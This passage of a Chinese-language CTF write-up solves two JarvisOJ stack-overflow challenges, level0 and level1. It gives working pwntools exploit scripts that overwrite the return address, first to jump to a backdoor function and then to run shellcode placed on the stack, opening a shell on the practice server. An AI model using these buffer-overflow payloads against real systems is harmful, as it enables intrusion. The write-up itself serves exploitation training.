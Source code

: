 所以构造level0的payload为padding+bp+pc，其中padding覆盖栈空间为0x80字节大小。由于程序开启了nx保护（no execute，代码页不可执行），所以我们不能在函数返回的位置（pc）直接添加shellcode执行任意代码。nx保护一般的绕过方式是代码重用，即利用可执行代码页的代码来达到我们想要的任意代码执行的目的。仔细观察这个题目中有一个函数叫callsystem，跟进发现是一个执行system(‘/bin/sh’)的预置后门，所以我们把pc赋值成callsystem的地址400596即可。

[![](https://p4.ssl.qhimg.com/t015dea357043f8528e.png)](https://p4.ssl.qhimg.com/t015dea357043f8528e.png)

脚本如下

```
from pwn import *

context.log_level='DEBUG'

rmt=1
if rmt:
 r=remote('pwn2.jarvisoj.com',9881)
else:
 r=process('./level0')

sys_addr=0x400596
payload='a'*0x80+'b'*8+p64(sys_addr)
r.sendlineafter('Hello, World',payload)

r.interactive()
```



## 1. level1，未开启nx保护写shellcode执行任意代码

漏洞类型、成因与level0一致，只不过level1是一个32位未开启nx的程序（栈代码页可执行），程序中没有出现像level0一样的后门(system(‘/bin/sh’))，我们这里考虑写shellcode执行任意代码。

[![](https://p5.ssl.qhimg.com/t011561500acc99e09e.png)](https://p5.ssl.qhimg.com/t011561500acc99e09e.png)

程序输出了buf的地址，我们在buf的位置布置shellcode然后覆盖返回地址为

buf地址执行shellcode即可。构造payload=shellcode+padding+bp+ret，其中shellcode+padding覆盖栈空间，大小0x88；32位bp的长度为4字节；ret的地址覆盖为程序输出的buf的地址即可。

关于shellcode的编写，我们可以使用pwntools提供的shellcraft模块，也可以自己编写system(‘/bin/sh’)的调用。一个比较好用的linux系统中断号查询网址（自备飞机）[https://syscalls.kernelgrok.com/。](https://syscalls.kernelgrok.com/%E3%80%82)

查询可得0xb调用号为sys_execve，eax=0xb，ebx=path，ecx=argv，envp=0即可执行sys_execve(path,argv,envp)的调用。

[![](https://p5.ssl.qhimg.com/t0119df5bcbfd656b2d.png)](https://p5.ssl.qhimg.com/t0119df5bcbfd656b2d.png)

​ 脚本如下

```
from pwn import *

context.log_level='DEBUG'

rmt=1
if rmt:
​    r=remote('pwn2.jarvisoj.com',9877)
else:
​    r=process('./level1')

r.recvuntil('this:')
buf_addr=int(r.recvuntil('?',drop=True),16)
payload = asm(shellcraft.sh()).ljust(0x88,’x90’)
payload+=’b'*4 + p32(buf_addr)

r.send(payload)
r.interactive()
```
